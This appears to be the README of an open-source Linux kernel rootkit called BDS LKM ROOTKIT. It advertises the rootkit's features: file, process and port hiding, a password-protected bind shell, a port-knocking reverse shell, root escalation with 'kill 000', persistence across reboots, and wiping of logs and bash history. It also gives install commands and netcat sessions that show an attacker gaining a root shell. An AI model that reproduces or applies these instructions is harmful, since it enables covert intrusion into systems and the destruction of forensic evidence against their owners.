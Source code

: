<h2>BDS LKM ROOTKIT</h2>
<p>
Linux Loadable Kernel Module Rootkit for Linux Kernel 5.x and 6.x on x86_64.
<br>
Developed by : Antonius 
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
This lkm rootkit works on x64 architecture only.
</p>

<p>
<h3>Features</h3> 
<ul>
  <li>hides files and directories with prefix bds_</li>
  <li>port knocking bind shell (bind shell password is bluedragonsec)</li>
  <li>port knocking reverse shell</li>
  <li>privilege escalation using kill 000 command</li>
  <li>hides bind shell and reverse shell port from netstat</li>
  <li>hides bind shell and reverse shell process</li>
  <li>rootkit persistence to survive after reboot</li>
  <li>hides module</li>
  <li>cleans up logs and bash history during installation</li>
</ul>
</p>
<h3>Installation</h3>
<p>
You need root privilege for installing this rootkit.
<br>
In case you have installed linux kernel headers, make and gcc, install it by running the installer script:
<br>
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed linux kernel headers, make and gcc, install it by running the installer script  :
<br>
<pre>
./install.sh
</pre>
<br>
</p>
<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>  
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing : <b>kill 000</b>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ kill 000
robotsoft@robotsoft:~$ id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
</pre>  
</p>
<p>
<b>Activating Reverse Shell</b>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then do port knocking to your target server (with rootkit installed) on port 1337.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and do port knocking to target server :
<pre>
nc server ip 1337
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Do port knocking to target ip address (with rootkit installed) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1337
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
robotsoft@robotsoft:~$ nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.0.102 44052
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>

<p>
<b>Activating Bind Shell</b>
<br>
To activate bind shell, you need to do port knocking to your target server (with rootkit installed) on port 1338.
The bind shell password is : bluedragonsec
<br>
On your machine, open terminal and type:
<pre>
nc server ip 1338
</pre>  
Wait a few seconds then type:
<pre>
nc server ip 31337
type the password : bluedragonsec
</pre>
Example (server ip address with rootkit installed is at 192.168.0.102):
<pre>
robotsoft@robotsoft:~$ nc 192.168.0.102 1338
(wait a few seconds)
robotsoft@robotsoft:~$ nc 192.168.0.102 31337
Password :bluedragonsec
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
</pre>
</p>
<p>
<b>Hiding Files and Directories</b>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>
<p>
<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to clean logs to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>


<p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>

<p>
<b>Process Hiding</b>
<br>
This rootkit hides bind shell process and reverse shell process.
</p>


<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port and reverse shell port.
</p>

